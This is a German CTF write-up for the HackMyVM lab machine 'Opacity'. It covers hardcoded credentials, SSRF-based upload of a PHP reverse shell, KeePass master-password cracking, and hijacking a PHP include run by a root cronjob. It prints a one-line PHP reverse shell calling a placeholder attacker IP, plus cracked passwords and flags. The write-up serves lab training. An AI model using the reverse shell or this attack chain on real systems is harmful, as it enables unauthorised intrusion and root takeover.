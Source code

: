 # Opacity - HackMyVM (Medium)

![Opacity.png](Opacity.png)

## Übersicht

*   **VM:** Opacity
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Opacity)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 25. April 2023
*   **Original-Writeup:** https://alientec1908.github.io/Opacity_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Opacity" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer Server-Side Request Forgery (SSRF)-Schwachstelle in einer Webanwendung (`/cloud/storage.php`), die nach einem Login (`admin:oncloud9` - Credentials im Quellcode von `login.php` gefunden) zugänglich war. Dies ermöglichte das Hochladen einer PHP-Reverse-Shell und somit eine Shell als `www-data`. Die erste Rechteausweitung zum Benutzer `sysadmin` gelang durch das Finden einer KeePass-Datenbankdatei (`/opt/dataset.kdbx`), deren Master-Passwort geknackt wurde und das SSH-Passwort für `sysadmin` enthielt. Die finale Eskalation zu Root erfolgte durch Modifikation einer PHP-Include-Datei (`/home/sysadmin/scripts/lib/backup.inc.php`), die von einem als Root laufenden Cronjob-Skript (`/home/sysadmin/scripts/script.php`) eingebunden wurde. Durch Einfügen eines PHP-Reverse-Shell-Codes in die Include-Datei wurde eine Root-Shell erlangt.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `enum4linux`
*   `gobuster`
*   `python3 http.server`
*   `nc` (netcat)
*   `wget`
*   `keepass2john`
*   `john`
*   `keepass` (oder KeePassXC)
*   `ssh`
*   `unzip`
*   Standard Linux-Befehle (`vi`, `cat`, `ss`, `find`, `ls`, `nano`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Opacity" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.138) mit `arp-scan` identifiziert. Hostname `opacity.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.2p1), 80 (HTTP, Apache 2.4.41, Weiterleitung zu `login.php`), 139/445 (SMB, Samba 4.6.2).
    *   `enum4linux` fand den Benutzer `sysadmin`.
    *   `gobuster` auf Port 80 fand u.a. `login.php` und das Verzeichnis `/cloud/`.
    *   Der Quellcode von `/var/www/html/login.php` (nach späterem Shell-Zugriff ausgelesen) enthielt hardcodierte Credentials: `admin:oncloud9`.

2.  **Initial Access (SSRF zu RCE als `www-data`):**
    *   Nach dem Login als `admin:oncloud9` wurde die Funktionalität unter `/cloud/storage.php` untersucht. Diese erlaubte das Abrufen von Dateien von externen URLs (SSRF).
    *   Eine PHP-Reverse-Shell (`rev.php`) wurde auf dem Angreifer-Server gehostet.
    *   Mittels SSRF wurde die `rev.php` vom Zielserver heruntergeladen (als `rev.php .jpg` getarnt) und im Verzeichnis `/cloud/images/` gespeichert.
    *   Durch direkten Aufruf von `http://opacity.hmv/cloud/images/rev.php` wurde die Shell ausgeführt.
    *   Eine Reverse Shell als `www-data` wurde auf einem Netcat-Listener empfangen und stabilisiert.

3.  **Privilege Escalation (von `www-data` zu `sysadmin` via KeePass):**
    *   Als `www-data` wurde im Verzeichnis `/opt` die Datei `dataset.kdbx` (KeePass-Datenbank) gefunden, die `sysadmin` gehörte, aber für `www-data` lesbar war.
    *   Die Datei wurde heruntergeladen. Mittels `keepass2john dataset.kdbx > hash` wurde der Master-Passwort-Hash extrahiert.
    *   `john --wordlist=rockyou.txt hash` knackte das Master-Passwort: `741852963`.
    *   Die KeePass-Datenbank wurde mit dem Master-Passwort geöffnet und enthielt das SSH-Passwort für `sysadmin`: `Cl0udP4ss40p4city#8700`.
    *   Erfolgreicher SSH-Login als `sysadmin`.
    *   Die User-Flag (`6661b61b44d234d230d06bf5b3c075e2`) wurde in `/home/sysadmin/local.txt` gefunden.

4.  **Privilege Escalation (von `sysadmin` zu `root` via Cronjob & PHP Include Hijack):**
    *   `sudo -l` als `sysadmin` zeigte keine `sudo`-Rechte.
    *   Im Verzeichnis `/home/sysadmin/scripts/` wurde die Datei `script.php` (gehört `root:sysadmin`, nur lesbar für `sysadmin`) gefunden. Dieses Skript bindet `lib/backup.inc.php` ein und erstellt ein Backup. Es wurde angenommen, dass `script.php` durch einen Cronjob als `root` ausgeführt wird.
    *   Das Backup-Archiv `/var/backups/backup.zip` wurde in `/home/sysadmin/scripts/` entpackt, wodurch `lib/backup.inc.php` überschrieben werden konnte (da `sysadmin` Schreibrechte im `lib`-Unterverzeichnis hatte).
    *   PHP-Code für eine Reverse Shell (`$sock=fsockopen("ANGRIFFS_IP",9008);exec("/bin/bash <&3 >&3 2>&3");`) wurde in `/home/sysadmin/scripts/lib/backup.inc.php` eingefügt.
    *   Ein Netcat-Listener wurde auf Port 9008 gestartet.
    *   Nachdem der Cronjob `script.php` (und damit die modifizierte `backup.inc.php`) als `root` ausgeführt hatte, wurde eine Root-Shell auf dem Listener empfangen.
    *   Die Root-Flag (`ac0d56f93202dd57dcb2498c739fd20e`) wurde in `/root/proof.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Hardcodierte Credentials im Quellcode:** Zugangsdaten für den Web-Admin (`admin:oncloud9`) waren in `login.php` hinterlegt.
*   **Server-Side Request Forgery (SSRF):** Die Datei `storage.php` erlaubte das Abrufen externer Dateien, was zum Hochladen einer Webshell missbraucht wurde.
*   **Unsicherer Dateiupload:** Nach dem SSRF konnten PHP-Dateien im Web-Root gespeichert und ausgeführt werden.
*   **Exponierte KeePass-Datenbank:** Eine KeePass-Datei mit einem schwachen Master-Passwort enthielt SSH-Credentials.
*   **Passwort-Cracking (KeePass):** Das KeePass-Master-Passwort wurde mit `keepass2john` und `john` geknackt.
*   **Unsichere Dateiberechtigungen / PHP Include Hijacking:** Ein als Root laufender Cronjob führte ein PHP-Skript aus, das eine von einem Benutzer mit geringeren Rechten beschreibbare Datei (`backup.inc.php`) einband. Durch Modifikation dieser Include-Datei konnte Code als Root ausgeführt werden.

## Flags

*   **User Flag (`/home/sysadmin/local.txt`):** `6661b61b44d234d230d06bf5b3c075e2`
*   **Root Flag (`/root/proof.txt`):** `ac0d56f93202dd57dcb2498c739fd20e`

## Tags

`HackMyVM`, `Opacity`, `Medium`, `SSRF`, `File Upload RCE`, `Hardcoded Credentials`, `KeePass`, `Password Cracking`, `Cronjob Exploit`, `PHP Include Hijack`, `Linux`, `Web`, `Privilege Escalation`, `Apache`, `Samba`
